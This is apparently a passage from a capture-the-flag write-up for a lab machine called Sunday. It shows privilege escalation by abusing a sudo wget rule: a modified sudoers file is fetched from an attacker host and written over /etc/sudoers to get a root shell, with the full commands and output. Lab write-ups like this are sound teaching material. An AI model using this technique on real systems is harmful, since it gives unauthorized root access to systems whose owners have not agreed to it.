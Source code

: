 

And now I can `su` with the password "password".

#### Overwrite sudoers

The `/etc/sudoers` file defines who can run sudo on which applications.
We can estimate that, without comments, the unmodified file on Sunday
looks something like:



    root  ALL=(ALL) ALL
    sammy ALL=(root) NOPASSWD: /usr/bin/wget
    sunny ALL=(root) NOPASSWD: /root/troll



Let's change that slightly in a copy on our local host, giving sammy the
ability to run `su` without password:



    root  ALL=(ALL) ALL
    sammy ALL=(root) NOPASSWD: /usr/bin/su
    sunny ALL=(root) NOPASSWD: /root/troll



Now, use wget to overwrite the file on Sunday, and then it is easy to
get a root shell:



    sammy@sunday:~$ sudo wget -O /etc/sudoers http://10.10.14.5/sudoers
    --02:07:08--  http://10.10.14.5/sudoers
               => `/etc/sudoers'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 99 [application/octet-stream]

    100%[==========================================================================================================================================================================================================>] 99            --.--K/s

    02:07:08 (15.45 MB/s) - `/etc/sudoers' saved [99/99]

    sammy@sunday:~$ sudo -l
    User sammy may run the following commands on this host:
        (root) NOPASSWD: /usr/bin/su
    sammy@sunday:~$ sudo su
    root@sunday:~# id
    uid=0(root) gid=0(root)



## Beyond Root

### overwrite

#### What Is It
